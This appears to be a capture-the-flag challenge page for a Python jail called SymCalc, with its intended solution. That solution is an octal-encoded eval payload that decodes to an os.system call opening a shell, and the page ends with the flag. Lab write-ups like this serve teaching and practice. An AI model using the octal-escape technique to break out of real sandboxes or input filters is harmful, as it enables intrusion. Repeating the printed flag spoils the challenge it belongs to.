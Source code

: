 # SymCalcpy
## JAIL - Medium
| author | first blood | solves | points |
| --- | --- | --- | --- |
| k3v1n | _ | 0 | 0 |
### prompt
Welcome to SymCalc, the most secure calculator ever. Only punctuation and digits allowed!

**Connect via:**
`nc symcalc.sdc.tf 1337`

### original specification
Allowed set of characters written in Python:
`set(string.punctuation + string.digits + '\n')`

It also asks for a favorite builtin, which will be pushed to a Python interpreter, the interpreter then asks for you to enter an expression.
The trick is to enter eval for that and then enter Python code encoded in octal digits:
`_('\137\137\151\155\160\157\162\164\137\137\050\042\157\163\042\051\056\163\171\163\164\145\155\050\042\163\150\042\051')`

There is actually another built-in (without using the obvious eval or exec) that can be used: `getattr`, with a more complex exploit based on the same octal encoding idea, but this will be left as an exercise to the writeup authors.

**flag:** `sdctf{0ct4l_3scap3s_go_brrrrr...___und3rsc0r3s_ar3_Id3Nt1Fi3rs_t00}`

